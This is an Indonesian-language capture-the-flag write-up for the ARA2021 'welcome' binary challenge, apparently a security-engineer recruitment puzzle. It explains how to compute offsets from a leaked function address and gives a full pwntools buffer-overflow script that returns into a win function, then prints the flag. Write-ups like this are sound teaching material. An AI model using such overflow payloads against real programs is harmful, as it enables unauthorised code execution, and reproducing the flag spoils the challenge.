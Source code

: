 # Welcome
---
## Deskripsi
Salah satu pertimbangan Anda layak untuk masuk ke Telkom Indonesia sebagai security engineer adalah dengan menyelesaikan soal ini. Temukan flagnya maka kesempatan Anda untuk bekerja sebagai security engineer di Telkom Indonesia semakin besar   
## Solusi
Cek terlebih dahulu menggunakan checksec. Terdapat PIE tetapi hal ini bukan masalah dikarenakan kita sudah diberitahu address dari fungsi welcome

![](pict.png)

Hal yang perlu dilakukan adalah mengetahui offset return dari alamat fungsi welcome dan offset fungsi win dari alamat fungsi welcome. Cara mengetahuinya 

![](pict2.png)

Tinggal dihitung offsetnya

![](pict3.png)

Setelah itu tinggal mengetahui Padding untuk mengisi buffer. Diawali dengan ARA2021 ditambahkan null byte dibelakangnya. Setelah itu ditambahkan payload random untuk mengecek padding. Jika semua sudah ketemu payloadnya tinggal PADDING+WIN_RETURN+WIN. Untuk kodingannya seperti ini

```
from pwn import *

exe = ELF("welcome")
p = process("./welcome")

#mengambil alamat funsgi welcome
WELCOME =int(p.recv().split("\n")[0].split("0x")[1],16)

#offset win
WIN_OFFSET = 0x37
WIN = WELCOME - WIN_OFFSET

#offset return
WIN_RETURN_OFFSET = 0x1
WIN_RETURN = WELCOME - WIN_RETURN_OFFSET

#Padding
PADDING = "ARA2021\x00"
PADDING += 'A' * int(cyclic_find('oaac'))


#print(address_of_welcome)
PAYLOAD = PADDING + p64(WIN_RETURN) + p64(WIN)

#raw_input("GDB gan")
p.sendline(PAYLOAD)
p.interactive()

```
#### ara2021{w3lC0mE_t0_ARA2o01}